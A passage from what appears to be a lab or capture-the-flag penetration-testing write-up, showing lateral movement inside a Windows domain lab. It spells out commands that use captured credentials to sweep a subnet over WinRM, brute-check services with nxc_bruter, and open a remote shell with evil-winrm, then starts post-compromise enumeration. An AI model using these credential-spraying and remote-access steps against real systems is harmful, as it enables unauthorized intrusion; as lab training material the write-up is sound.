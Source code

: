 6. Check internal connection 

    We can test connection anyway but i would use nxc with the previously gained credentials to test the whole subnet
    ```bash
    nxc winrm 192.168.99.0/24 -u wao -p WebAO1337
    ```
    
    ![](https://cdn-images-1.medium.com/max/1000/1*DPxwPE2PmhE9Zw1ZdtcO2Q.png)

    I was wrong 192.168.99.1 is the current DC machine not the gateway. And the next target is **192.168.99.2** machine `ws-3` which we have access to it via winrm using `wao`'s user credentials

    ```bash
    nxc_bruter -i 192.168.99.12 -s all -u wao -p WebAO1337
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*9OAAVqyNUtA4kXfNScO2FA.png)
    For the third host nothing obvious yet but it has ssh port open even the version is unknown
--- 
## 4. Post Compromise Enumeration 

At this stage, since we have access to multiple machines, we should enumerate each one thoroughly to gather additional intelligence and determine the most effective path for the next stage of the attack.

### 192.168.99.1 DC

This is the local IP of the second network interface on our currently compromised machine. We previously enumerated this host when we first gained access via the earlier web exploit.

### 192.168.99.2 ws-3

1.  Testing Connection

    We can access this host via WinRM
    ```bash
    nxc winrm 192.168.99.2 -u wao -p WebAO1337
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*oYhpAosBx3RRyyVBCGoKcg.png)

2. Connecting
    ```bash
    evil-winrm -i 192.168.99.2 -u wao -p WebAO1337
    ```
    ![](https://cdn-images-1.medium.com/max/1000/1*YEUwdccLsCB8k3AS9wNTQQ.png)

3. Enumeration 
    
    After thorough enumeration, no interesting files even open local ports or additional network interfaces were found. However, two notable findings emerged

    + Automation Scripts Directory
